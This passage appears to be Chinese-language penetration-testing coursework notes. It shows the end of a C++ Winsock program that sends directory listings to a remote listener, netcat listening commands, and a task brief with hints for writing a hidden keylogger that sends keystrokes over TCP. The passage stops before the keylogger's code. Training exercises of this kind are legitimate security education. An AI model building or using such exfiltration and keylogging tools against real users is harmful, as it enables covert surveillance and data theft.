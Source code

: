 ```cpp
		{
			send(server, ent->d_name, sizeof(ent->d_name), 0);
		}
		closedir(dir);
	}
	else
	{
		perror("");
	}
	closesocket(server);
	WSACleanup();
}
```



### 在服务器上进行监听

Windows下的netcat：https://eternallybored.org/misc/netcat/，或者用kali自带的netcat。

解压存档（小心 Windows Defender 可能会抱怨这是一种病毒，因此建议至少将此文件作为 AV 的例外）。

```shell
nc.exe -lvp 27015 (或您在上述源码中指定的端口) <- For Windows
nc -lvp 27015 (或您在上述源码中指定的端口) <- For Linux
```

提示：如果您的程序未连接并且您使用的是 Windows，请检查防火墙设置。防火墙可能会阻止您，因此您可能需要在本练习中将其关闭。



## 任务 2：创建一个简单的键盘记录器，将所有收集到的信息发送回渗透测试人员

使用 C++ 编写一个隐蔽运行的程序，收集用户的击键并通过网络将它们发送回选择的地址。

**提示**：

- 您可能希望利用`ShowWindow()`函数对目标隐藏窗口。
- 对于这个工具的联网能力，如果使用 TCP 连接会更简单。利用`Winsock`库。
- 对于捕获键，您可能需要使用`GetAsyncKeyState()`函数。
- 对于接收数据，您可以使用 netcat 或 ncat 之类的工具 - 不要自己编写。
- 您可以将通过 RDP 连接的机器用作受害者机器。您不需要将创建的键盘记录程序发送到其他任何地方。



### 我写的源码及用法

**文件名：**`keylog.cpp`

**用法：**`keylog.exe server-name`

**用法详解：**

* 当不传入任何命令参数时，程序会提示用户正确的用法。

  输入：`keylog.exe`

  输出：`usage: keylog.exe server-name`
